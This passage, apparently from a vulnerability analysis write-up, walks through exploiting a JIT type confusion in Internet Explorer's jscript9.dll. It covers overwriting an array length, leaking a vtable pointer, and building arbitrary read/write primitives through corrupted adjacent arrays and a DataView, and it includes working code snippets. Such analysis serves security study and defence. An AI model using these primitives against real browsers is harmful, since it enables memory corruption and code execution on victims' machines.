 Then the trigger confuses the type of `q` and overwrites the length of array `b[52]`.

```
q = e;              // JIT still thinks `q` points to an Int32Array, while it is now an Object
...
q[8] = 0x1fffffff;  // Writes 0x1fffffff at offset 0x20 in `b[52]`, which is the length
```

The trigger also does a second thing: it leaks the address of the vtable pointer of `b[52]`.

```
vtable = {
        addr_low: q[0],
        addr_high: q[1]
});
```

Note that the vtable pointer is 64 bits in size but `q[0]` and `q[1]` accesses 32 bits in size since it still believes it is a `Int32Array`.

The exploit now achieved 2 things:

* Leaked an address inside of `jscript9.dll`
* Large (enough) relative R/W primitive

##### Arbitrary R/W

The exploit sets an element of `b[53]` (which lies right next to `b[52]`) to a `Dataview` object:

```
var arraybuffer = new ArrayBuffer(16);
var dataview = new DataView(arraybuffer);

b[53][0] = dataview;
```

Internally, this will cause `b[53]`'s buffer to be reallocated elsewhere, and not be inline anymore. The address of this buffer can be leaked now by reading out of bounds from `b[52]`, since it's stored in `b[53]`'s header. The exploit then overwrites `b[54]`'s buffer pointer with this address (by writing out of bounds of `b[52]` in the adjacent `b[54]` header). We now have the buffer of `b[53]` and `b[54]` pointing to the same address, with one big difference: `b[54]` still thinks it just contains 32-bit sized integers.

By setting an element of `b[53]` to the `dataview` object, the `dataview` object pointer will be written in `b[53]`'s buffer and we can then obtain that pointer by reading elements of `b[54]`. We then overwrite `b[54]`'s pointer again, this time to the `dataview` object. This grants us an arbitrary R/W:

```
function read4(addr_low, addr_high) {
        b[54][7] = addr_low;    // redirect buffer of dataview
        b[54][8] = addr_high;
        return dataview['getUint32'](0, true);  // do read
}

function write4(addr_low, addr_high, val) {
        b[54][7] = addr_low;   // redirect buffer of dataview
        b[54][8] = addr_high;
        dataview['setUint32'](0, val, true);  // do write
}
```
